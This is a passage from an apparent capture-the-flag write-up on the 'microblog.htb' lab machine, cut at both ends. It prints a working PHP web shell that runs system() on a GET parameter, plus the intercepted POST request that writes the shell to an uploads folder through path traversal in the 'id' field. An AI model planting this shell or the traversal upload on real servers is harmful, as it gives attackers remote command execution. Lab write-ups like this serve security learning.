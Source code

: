 And the is all, after that I sent the request and had the pro subscription.

#### Getting to www-data

After getting pro, we can look at the look at the source code again. We can see the in the add image part inside /edit/index.php a ../uploads directory is created, when adding an image and to add an image you need to go pro. So we got that uploads part, now we can upload php code as text but direct it to the uploads folder. By doing that we could execute commands remotly and thus get a shell.

I goes as follows:

First you need to have pro, then you can run the following payload that will create you a code command panel that you can execute shell commands on:

```

<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>"><input type="TEXT" name="cmd" autofocus id="cmd" size="80"><input type="SUBMIT" value="Execute"></form><pre><?php if(isset($_GET['cmd'])){system($_GET['cmd']);}?></pre>

```

After entering that in the text input, intercept the request and instead of the `id` given, change it to `id=../uploads/<file>.php`.

```

POST /edit/index.php HTTP/1.1
Host: fady.microblog.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 404
Origin: http://fady.microblog.htb
Connection: close
Referer: http://fady.microblog.htb/edit/?message=Section%20deleted&status=success
Cookie: username=jrg2sbiqvq5h3cmk5vuvbhl0m5
Upgrade-Insecure-Requests: 1

id=../uploads/shell.php&txt=%3Cform+method%3D%22GET%22+name%3D%22%3C%3Fphp+echo+basename%28%24_SERVER%5B%27PHP_SELF%27%5D%29%3B+%3F%3E%22%3E%3Cinput+type%3D%22TEXT%22+name%3D%22cmd%22+autofocus+id%3D%22cmd%22+size%3D%2280%22%3E%3Cinput+type%3D%22SUBMIT%22+value%3D%22Execute%22%3E%3C%2Fform%3E%3Cpre%3E%3C%3Fphp+if%28isset%28%24_GET%5B%27cmd%27%5D%29%29%7Bsystem%28%24_GET%5B%27cmd%27%5D%29%3B%7D%3F%3E%3C%2Fpre%3E

```

Now you can navigate to the /uploads/shell.php uri and execute command to the machine. 


### Getting to cooper

After getting to `www-data` you can't find much of nothing, except the redis database, now at first it was a little wierd with the syntax, but I managed to figure out how to use it. To find Cooper's password I ran the following:
